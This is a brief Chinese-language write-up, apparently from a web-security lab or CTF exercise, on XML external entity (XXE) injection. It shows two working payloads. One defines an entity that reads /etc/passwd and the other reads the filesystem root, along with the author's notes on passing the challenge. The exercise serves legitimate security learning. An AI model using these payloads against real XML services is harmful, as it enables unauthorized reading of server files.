 也就是DOCTYPE定义一个东西，&<u>name</u>;引用。理解一下

```xml
<?xml version="1.0"?>
<!DOCTYPE author [
  <!ENTITY js SYSTEM "file:///etc/passwd">]>
<comment>
  <text>&js;</text></comment>
```

这个是输出`/etc/passwd`文件，虽然不是题目但是直接过了

![](../images/Pasted%20image%2020241125171919.png)
效果：
![](../images/Pasted%20image%2020241125172347.png)

虽然这时候过了，但是不是题目要求的根目录，改了一下

```xml
<?xml version="1.0"?>
<!DOCTYPE mytest [
  <!ENTITY xxe SYSTEM "file:///">]>
<comment>
  <text>&xxe;</text></comment>
```
